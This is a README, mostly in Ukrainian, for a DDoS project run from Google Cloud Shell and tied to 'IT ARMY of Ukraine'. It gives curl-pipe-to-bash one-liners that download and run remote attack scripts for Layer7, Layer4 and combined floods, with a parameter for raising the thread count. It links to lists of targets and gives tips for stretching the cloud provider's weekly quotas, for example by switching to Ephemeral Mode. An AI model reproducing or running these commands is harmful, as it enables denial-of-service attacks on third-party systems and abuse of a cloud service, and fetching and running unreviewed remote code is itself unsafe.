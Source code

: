 ## DDoS whith Google Cloud Shell (MHDDoS_proxy)
#### Making script for durable cloudshell session
#
# ТЕСТ
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

## Команди для запуску атаки
#### по Layer7:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
#### по Layer4:
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash
```
#### Подвійна атака (Layer7+Layer4) розділений термінал (tmux):
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```
#
У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях бажано **вимкнути** статистику використання.
Дозволяється запускати до 4 терміналів на 1 акаунт але доцільніше використовувати 1-2 термінали на акаунт.
Також враховуйте, що встановлені тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та 50 годин у ефемерному режимі (до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще 50 годин використання на поточний тиждень)
#
:white_check_mark: **Перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t за замовчуванням 1000. За потреби параметр -t можна змінити додавши до команди ` -s -- "кількість"`, наприклад:**
```
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash -s -- 2000
```
#
#### Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4t.lst

#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
